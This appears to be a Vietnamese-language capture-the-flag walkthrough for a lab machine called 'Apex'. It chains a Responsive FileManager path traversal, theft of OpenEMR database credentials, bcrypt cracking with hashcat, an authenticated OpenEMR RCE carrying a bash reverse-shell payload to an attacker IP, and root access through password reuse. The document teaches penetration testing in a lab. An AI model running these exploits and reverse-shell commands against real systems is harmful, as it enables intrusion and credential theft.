


# Apex

## Summary

Trong hướng dẫn này, khai thác mục tiêu bằng cách tận dụng lỗ hổng path traversal trong ứng dụng Responsive FileManager v9.13.4 kết hợp với open Samba share. Sử dụng lỗ hổng đó có thể leak file nhạy cảm của ứng dụng khác, OpenEMR v5.0.1.1, có chứa thông tin xác thực cơ sở dữ liệu cho ứng dụng. Điều này sẽ cho phép liệt kê cơ sở dữ liệu của hệ thống và leak mật khẩu băm của người dùng quản trị.

Sau đó có thể bẻ khóa mật khẩu băm và khai thác lỗ hổng thực thi mã từ xa đã xác thực trong ứng dụng, cấp quyền truy cập cục bộ vào mục tiêu. Mật khẩu gốc đã được sử dụng lại và giống với mật khẩu của người dùng quản trị, dễ dàng nâng cấp đặc quyền lên root.

## Enumeration

### Nmap

Bắt đầu bằng cách quét `nmap`.

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap 192.168.120.204                            
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-13 08:23 EDT
Nmap scan report for 192.168.120.204
Host is up (0.029s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
3306/tcp open  mysql
```

Scan này hiển thị ba dịch vụ trên cổng mặc định của chúng: HTTP trên cổng 80, Samba trên cổng 445 và MySQL trên cổng 3306.

### HTTP Enumeration

Tiến hành liệt kê bằng cách truy cập trang web trên cổng 80 (http://192.168.120.204/). Link Scheduler trong menu trên cùng trỏ đến ứng dụng OpenEMR (http://192.168.120.204/openemr).


Ghi chú lại để tham khảo sau.

Trong khi liệt kê dịch vụ HTTP, chạy quét thử các thư mục ẩn bằng cách sử dụng wordlist `/usr/share/wordlists/dirb/common.txt`.

Scan này định vị thư mục `/filemanager`. Khi điều hướng đến thư mục đó (`http://192.168.120.204/filemanager`), thấy một phiên bản của `Responsive FileManager` đang chạy ở đây.

```
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.120.204/filemanager/   
<!DOCTYPE html>
<html>
        <head>
                <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" >
                <meta name="viewport" content="width=device-width, initial-scale=1.0">
                <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1" />
                <meta name="robots" content="noindex,nofollow">
                <title>Responsive FileManager</title>
...
```

Click vào biểu tượng `help/about` (biểu tượng `?`) ở góc trên bên phải của trang sẽ hiển thị phiên bản là `9.13.4`.



Ghi chú về phần mềm này. Ở đây thấy hai thư mục được liệt kê trong chế độ xem mặc định: `images` và `Documents`. Thư mục `images` chứa bốn hình ảnh của nhân viên y tế và không tìm thấy gì đặc biệt ở đó. Thư mục `Documents` chứa hai tệp PDF: `OpenEMR Success Stories.pdf` và `OpenEMR Features.pdf`.



Nếu tải xuống và xem các tệp này, không có gì thú vị ở đây cả. Nhưng ghi chú lại thư mục này.

### SMB Enumeration

Khi liệt kê dịch vụ SMB, tìm thấy một open share có tên là docs. Các share `print$` và `IPC$` là mặc định và không thú vị.

```
┌──(kali㉿kali)-[~]
└─$ smbclient -L 192.168.120.204
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        docs            Disk      Documents
        IPC$            IPC       IPC Service (APEX server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

Cùng xem qua nội dung share `docs`.

```
┌──(kali㉿kali)-[~]
└─$ smbclient //192.168.120.204/docs
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Apr  9 11:47:12 2021
  ..                                  D        0  Fri Apr  9 11:47:12 2021
  OpenEMR Success Stories.pdf         A   290738  Fri Apr  9 11:47:12 2021
  OpenEMR Features.pdf                A   490355  Fri Apr  9 11:47:12 2021

                16446332 blocks of size 1024. 10839516 blocks available
smb: \>
```

Thật thú vị, tìm thấy hai tệp PDF quen thuộc ở đây - cùng một tệp mà đã thấy trong thư mục `Documents` của FileManager. Đoán một cách có căn cứ rằng hai thư mục này là giống nhau.

## Exploitation

### OpenEMR Directory Structure Discovery

Sau một chút nghiên cứu về phần mềm OpenEMR, tìm thấy trang GitHub của nó. Trang này nêu chi tiết cấu trúc thư mục của phần mềm. Điều hướng đến thư mục /sites/default, tìm thấy tệp cấu hình sqlconf.php. Kiểm tra tệp này, thấy rằng tệp này thường chứa thông tin kết nối cơ sở dữ liệu của ứng dụng, bao gồm thông tin xác thực người dùng cơ sở dữ liệu. Nếu có thể lấy được tệp này trên mục tiêu, điều đó có thể giúp có foothold.

### Responsive FileManager Path Traversal Vulnerability

Tiếp theo, tìm kiếm các exploit khả dụng cho Responsive FileManager v9.13.4. Điều đó dẫn đến Lỗ hổng Path Traversal này. Vì đã tìm hiểu cấu trúc thư mục của phần mềm OpenEMR và rất quan tâm đến tệp `/sites/default/sqlconf.php` trên máy chủ web, có thể thử tận dụng lỗ hổng này để lấy file đó.

Giải thích mã exloit, có thể thấy rằng nó có thể ghi một file được chọn vào thư mục chọn bằng hàm `paste_clipboard`.

```
def paste_clipboard(url, session_cookie):
	headers = {'Cookie': session_cookie,'Content-Type': 'application/x-www-form-urlencoded'}
	url_paste = "%s/filemanager/execute.php?action=paste_clipboard" % (url)
	r = requests.post(
	url_paste, data="path=", headers=headers)
	return r.status_code
```

Tuy nhiên, lưu ý rằng lỗ hổng này cần có giá trị cookie PHPSESSID hợp lệ để hoạt động.

```
def main():
	...
	session_cookie = sys.argv[2]
	...
	copy_result = copy_cut(url, session_cookie, file_name)
	if copy_result==200:
		paste_result = paste_clipboard(url, session_cookie)
...
```

May mắn thay, có thể lấy được session cookie hợp lệ từ trình duyệt web.

```
┌──(kali㉿kali)-[~]
└─$ curl -I http://192.168.120.204/filemanager/
HTTP/1.1 200 OK
Date: Thu, 27 May 2021 14:18:37 GMT
Server: Apache/2.4.29 (Ubuntu)
Set-Cookie: PHPSESSID=7hrtuqi0g91njt7n9eu498q5rv; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: last_position=%2F; expires=Thu, 03-Jun-2021 14:18:37 GMT; Max-Age=604800
Content-Type: text/html; charset=UTF-8
```

Trong trường hợp này, session cookie như sau:

```
PHPSESSID=7hrtuqi0g91njt7n9eu498q5rv
```

Vì đang nhắm mục tiêu vào thư mục `Documents` của FileManager làm đích ghi file, nên sẽ cần thực hiện một thay đổi nhỏ đối với exploit bằng cách sửa đổi dòng 36 thành nội dung sau:

```
url_paste, data="path=Documents/", headers=headers)
```

Mặc dù có thể đọc các file từ thư mục được share thông qua cả GUI của FileManager và phiên SMB, lưu ý rằng file đang nhắm mục tiêu là file `.php`. Do đó, nó sẽ không hiển thị trong trình duyệt. May mắn thay, SMB session đã cứu nguy.

Trước khi khởi chạy explot, liệt kê nội dung của thư mục để xem file không có ở đó.

```
smb: \> ls
  .                                   D        0  Fri Apr  9 11:47:12 2021
  ..                                  D        0  Fri Apr  9 11:47:12 2021
  OpenEMR Success Stories.pdf         A   290738  Fri Apr  9 11:47:12 2021
  OpenEMR Features.pdf                A   490355  Fri Apr  9 11:47:12 2021

                16446332 blocks of size 1024. 10839448 blocks available
smb: \>
```

Tiếp theo, khởi chạy exploit. Mặc dù không chắc phần mềm OpenEMR được cài đặt ở đâu, có thể thử một vài vị trí phổ biến, chẳng hạn như `/var/www/` và `/var/www/html/`. Thành công với vị trí đầu tiên.

```
┌──(kali㉿kali)-[~]
└─$ python3 49359.py http://192.168.120.204/ PHPSESSID=7hrtuqi0g91njt7n9eu498q5rv /var/www/openemr/sites/default/sqlconf.php
[*] Copy Clipboard
[*] Paste Clipboard
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at 192.168.120.204 Port 80</address>
</body></html>

┌──(kali㉿kali)-[~]
└─$
```

Nếu kiểm tra thư mục ngay bây giờ, thấy file mong muốn.

```
smb: \> ls
  .                                   D        0  Thu May 27 10:25:22 2021
  ..                                  D        0  Fri Apr  9 11:47:12 2021
  sqlconf.php                         N      639  Thu May 27 10:25:22 2021
  OpenEMR Success Stories.pdf         A   290738  Fri Apr  9 11:47:12 2021
  OpenEMR Features.pdf                A   490355  Fri Apr  9 11:47:12 2021

                16446332 blocks of size 1024. 10839440 blocks available
smb: \>
```

Nice, exploit đã thành công và file đã đến. Lấy nó thông qua SMB session.

```
smb: \> get sqlconf.php
getting file \sqlconf.php of size 639 as sqlconf.php (5.0 KiloBytes/sec) (average 5.0 KiloBytes/sec)
smb: \> quit

┌──(kali㉿kali)-[~]
└─$
```

Công sức đã được đền đáp bằng thông tin xác thực cơ sở dữ liệu cho hệ thống OpenEMR.

```
┌──(kali㉿kali)-[~]
└─$ cat sqlconf.php                                       
<?php
//  OpenEMR
//  MySQL Config

$host   = 'localhost';
$port   = '3306';
$login  = 'openemr';
$pass   = 'C78maEQUIEuQ';
$dbase  = 'openemr';

//Added ability to disable
//utf8 encoding - bm 05-2009
global $disable_utf8_flag;
$disable_utf8_flag = false;

$sqlconf = array();
global $sqlconf;
$sqlconf["host"]= $host;
$sqlconf["port"] = $port;
$sqlconf["login"] = $login;
$sqlconf["pass"] = $pass;
$sqlconf["dbase"] = $dbase;
...
```

### OpenEMR Database Enumeration

Với thông tin xác thực đã được tìm thấy, kết nối với cơ sở dữ liệu và xem có thể tìm thấy gì. Nếu chưa cài đặt `mysql` client trên máy tấn công, có thể cài đặt như sau.

```
┌──(kali㉿kali)-[~]
└─$ sudo apt-get install -y default-mysql-client
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
...
```

Sau khi cài đặt xong client, kết nối với cơ sở dữ liệu.

```
──(kali㉿kali)-[~]
└─$ mysql -u openemr -p C78maEQUIEuQ -D openemr -h 192.168.120.204
...
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [openemr]>
```

Bắt đầu bằng cách liệt kê các bảng có sẵn.

```
MariaDB [openemr]> show tables;
+---------------------------------------+
| Tables_in_openemr                     |
+---------------------------------------+
| addresses                             |
| amc_misc_data                         |
| amendments                            |
...
| user_settings                         |
| users                                 |
| users_facility                        |
| users_secure                          |
| valueset                              |
| version                               |
| voids                                 |
| x12_partners                          |
+---------------------------------------+
```

Các bảng thú vị nhất là `version` và `users_secure`. Bảng sau chứa tên người dùng và mật khẩu băm cho người dùng hệ thống.

Hãy kiểm tra phiên bản OpenEMR nào đang chạy trên mục tiêu.

```
MariaDB [openemr]> select * from version;
+---------+---------+---------+-------------+-------+------------+-------+
| v_major | v_minor | v_patch | v_realpatch | v_tag | v_database | v_acl |
+---------+---------+---------+-------------+-------+------------+-------+
|       5 |       0 |       1 |           1 |       |        253 |     8 |
+---------+---------+---------+-------------+-------+------------+-------+
1 row in set (0.031 sec)
```

Đang sử dụng phiên bản 5.0.1.1 của phần mềm này. Dump bảng `users_secure`.

```
MariaDB [openemr]> select * from users_secure;
+----+----------+--------------------------------------------------------------+--------------------------------+---------------------+-------------------+---------------+-------------------+---------------+
| id | username | password                                                     | salt                           | last_update         | password_history1 | salt_history1 | password_history2 | salt_history2 |
+----+----------+--------------------------------------------------------------+--------------------------------+---------------------+-------------------+---------------+-------------------+---------------+
|  1 | admin    | $2a$05$bJcIfCBjN5Fuh0K9qfoe0eRJqMdM49sWvuSGqv84VMMAkLgkK8XnC | $2a$05$bJcIfCBjN5Fuh0K9qfoe0n$ | 2021-05-17 10:56:27 | NULL              | NULL          | NULL              | NULL          |
+----+----------+--------------------------------------------------------------+--------------------------------+---------------------+-------------------+---------------+-------------------+---------------+
1 row in set (0.034 sec)

MariaDB [openemr]> quit
Bye
                                         
┌──(kali㉿kali)-[~]
└─$
```

Tìm thấy một người dùng `admin` duy nhất có mật khẩu đã băm trong bảng này.

### Password Cracking

Tiếp theo, hãy thử crack mật khẩu đã băm của người dùng này bằng `hashcat`. Nó trông giống như băm `bcrypt`. Tìm chế độ để sử dụng cho cuộc tấn công này.

```
┌──(kali㉿kali)-[~]
└─$ hashcat --help | grep bcrypt
   3200 | bcrypt $2*$, Blowfish (Unix)                     | Operating System
```

Đưa mã băm mật khẩu vào một file (không cần salt cho cuộc tấn công này) và thử nghiệm bằng cách sử dụng wordlist `rockyou`.

```
┌──(kali㉿kali)-[~]
└─$ echo '$2a$05$bJcIfCBjN5Fuh0K9qfoe0eRJqMdM49sWvuSGqv84VMMAkLgkK8XnC' > hash   

┌──(kali㉿kali)-[~]
└─$ hashcat -m 3200 -a 0 hash /usr/share/wordlists/rockyou.txt --force 
hashcat (v6.1.1) starting...
...
$2a$05$bJcIfCBjN5Fuh0K9qfoe0eRJqMdM49sWvuSGqv84VMMAkLgkK8XnC:thedoctor
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: $2a$05$bJcIfCBjN5Fuh0K9qfoe0eRJqMdM49sWvuSGqv84VMMA...kK8XnC
...
```

Mật khẩu đã bị crack thành công: `thedoctor`.

### OpenEMR Authenticated Remote Code Execution

Tra cứu các exploit khả dụng cho OpenEMR dẫn đến khai thác Thực thi mã từ xa (https://www.exploit-db.com/exploits/45161) và phiên bản phần mềm đang sử dụng (5.0.1.1) có vẻ dễ bị tấn công. Thật may là  đã khôi phục được thông tin xác thực hợp lệ cho người dùng vì khai thác yêu cầu xác thực để hoạt động.

Sử dụng một payload bash reverse shell đơn giản, như sau.

```
bash -i >& /dev/tcp/192.168.118.5/4444 0>&1
```

Thiết lập trình lắng nghe Netcat.

```
┌──(kali㉿kali)-[~]
└─$ nc -lvp 4444
listening on [any] 4444 ...
```

Tiếp theo, khởi chạy lệnh exploit.

```
┌──(kali㉿kali)-[~]
└─$ python 45161.py http://192.168.120.204/openemr -u admin -p thedoctor -c 'bash -i >& /dev/tcp/192.168.118.5/4444 0>&1'
 .---.  ,---.  ,---.  .-. .-.,---.          ,---.    
/ .-. ) | .-.\ | .-'  |  \| || .-'  |\    /|| .-.\   
| | |(_)| |-' )| `-.  |   | || `-.  |(\  / || `-'/   
| | | | | |--' | .-'  | |\  || .-'  (_)\/  ||   (    
\ `-' / | |    |  `--.| | |)||  `--.| \  / || |\ \   
 )---'  /(     /( __.'/(  (_)/( __.'| |\/| ||_| \)\  
(_)    (__)   (__)   (__)   (__)    '-'  '-'    (__) 
                                                       
   ={   P R O J E C T    I N S E C U R I T Y   }=    
                                                       
         Twitter : @Insecurity                       
         Site    : insecurity.sh                     

[$] Authenticating with admin:thedoctor
[$] Injecting payload
```

Có vẻ như exploit này đang bị treo, nhưng listener đã phát hiện ra một reverse shell.

```
──(kali㉿kali)-[~]
└─$ nc -lvp 4444
listening on [any] 4444 ...
192.168.120.204: inverse host lookup failed: Unknown host
connect to [192.168.118.5] from (UNKNOWN) [192.168.120.204] 58084
bash: cannot set terminal process group (1104): Inappropriate ioctl for device
bash: no job control in this shell
www-data@APEX:/var/www/openemr/interface/main$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Escalation

### Password Reuse

Mật khẩu gốc được sử dụng lại trên hệ thống này và giống với mật khẩu của người dùng quản trị cho OpenEMR: `thedoctor`. Tuy nhiên cần tạo một shell TTY phù hợp để sử dụng `su`. Nếu không có nó sẽ gặp lỗi.

```
www-data@APEX:/var/www/openemr/interface/main$ su root
su root
su: must be run from a terminal
www-data@APEX:/var/www/openemr/interface/main$
```

Tạo ra một lớp shell thích hợp.

```
www-data@APEX:/var/www/openemr/interface/main$ python -c 'import pty; pty.spawn("/bin/bash")'
<ain$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@APEX:/var/www/openemr/interface/main$
```

Bây giờ có thể đăng nhập với tư cách là `root:thedoctor`.

```
www-data@APEX:/var/www/openemr/interface/main$ su root
su root
Password: thedoctor

root@APEX:/var/www/openemr/interface/main# whoami
whoami
root
```